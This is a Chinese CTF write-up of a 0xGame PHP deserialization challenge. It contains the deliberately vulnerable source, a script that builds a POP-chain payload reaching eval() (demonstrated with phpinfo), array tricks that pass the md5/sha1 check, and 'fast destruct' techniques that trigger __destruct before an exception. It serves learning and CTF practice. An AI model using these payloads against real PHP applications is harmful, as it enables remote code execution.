

# 缘起

这周打了一下0xGame的ctf比赛。一进去想着从最简单的做起，



以为这是解题人数，所以从它做起了。。。。。。

结果给我搞了一晚上也没搞明白，闹麻了。

# 0xGame链子分析

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
class ZZZ
{
    public $yuzuha;
    function __construct($yuzuha)
    {
        $this -> yuzuha = $yuzuha;
    }
    function __destruct()
    {
        echo "破绽，在这里！" . $this -> yuzuha;
    }
}

class HSR
{
    public $robin;
    function __get($robin)
    {
        $castorice = $this -> robin;
        eval($castorice);
    }
}

class HI3rd
{
    public $RaidenMei;
    public $kiana;
    public $guanxing;
    function __invoke()
    {
        if($this -> kiana !== $this -> RaidenMei && md5($this -> kiana) === md5($this -> RaidenMei) && sha1($this -> kiana) === sha1($this -> RaidenMei))
            return $this -> guanxing -> Elysia;
    }
}

class GI
{
    public $furina; 
    function __call($arg1, $arg2)
    {
        $Charlotte = $this -> furina;
        return $Charlotte();
    }
}

class Mi
{
    public $game;
    function __toString()
    {
        $game1 = @$this -> game -> tks();
        return $game1;
    }
}

if (isset($_GET['0xGame'])) {
    $web = unserialize($_GET['0xGame']);
    throw new Exception("Rubbish_Unser");
}
?>
```

简单看一下，瞪眼法可以看出来

__destruct -> __toString -> __call -> __invoke -> eval()

  

还需要__construct来做一开始的构造所以很快就可以写好脚本

```php
<?php
class ZZZ
{
    public $yuzuha;
    function __construct($yuzuha)
    {
        $this -> yuzuha = $yuzuha;
    }
}

class HSR
{
    public $robin;

}

class HI3rd
{
    public $RaidenMei;
    public $kiana;
    public $guanxing;
}

class GI
{
    public $furina;
}

class Mi
{
    public $game;
}

$Mi = new Mi();
$ZZZ = new ZZZ($Mi);
$Gi = new GI();
$Mi->game=$Gi;
$HI3rd = new HI3rd();
$Gi->furina=$HI3rd;
$HSR = new HSR();
$HI3rd->guanxing = $HSR;
$HI3rd->kiana=[2];
$HI3rd->RaidenMei=[1];
$HSR->robin="phpinfo();";
echo serialize($ZZZ);

?>
```

到这里反序列化题一般就算是完成了，但是当我提交payload时，却并没有完成rce。

这里php又不能直接断点调试，所以我只能一个个echo来调试。累的我半死才大概清楚了问题。

# 发现问题

经过不断的调试，发现开始是会顺序执行，先反序列化，在到抛出异常，但是这里并没有用try catch处理异常。所以会触发致命错误。导致后面的流程无法执行，所以从__destruct开始就没有执行。想破脑袋也没想到到底怎么绕过。佬提醒我才去了解了一下PHP垃圾回收机制

# 垃圾回收

php中，主要采用引用计数的方式来支持垃圾回收机制。简单来说，就是引用计数为0的变量可以进行回收，腾出资源。php中的变量存在于一个叫"zval"的变量容器中，容器中包含了变量的类型和值，以及两个字节的信息：

一个是"is_ref"：标识变量是否是引用集合，用于分开普通变量和引用变量。

一个是"refcount"：用于确定指向此变量的个数，即引用的个数。

**引用计数**：每个内存对象都分配一个 refcount计数器，当内存对象被变量引用时，refcount计数器+1；当变量引用撤掉后（如执行unset（）后），refcount计数器-1；当 refcount计数器=0时(**数组对象为****NULL**)，表明内存对象没有被使用，该内存对象则进行销毁，垃圾回收完成。

  

也就是一个对象不再被引用时，就会触发垃圾回收，销毁对象。可以通过unset，或者给对像赋值null时，都会销毁。

# 绕过方法

1. 所以我们需要把开始想要反序列化的ZZZ对象放入数组，再放序列化数组对象，最后将`i:1`修改为`i:0`:


这样操作之后就提前销毁了对象，触发了析构函数。但是这题我在本地打通了，但是在题目中没打通

在**php** **8.0之后可能是****垃圾回收****机制改变，不需要在最后将****`i:1`****修改为****`i:0`

2. 把反序列化字符串最后的大括号去掉，导致`fast desturct` 原理大概就是导致反序列化失败，提前触发对象销毁。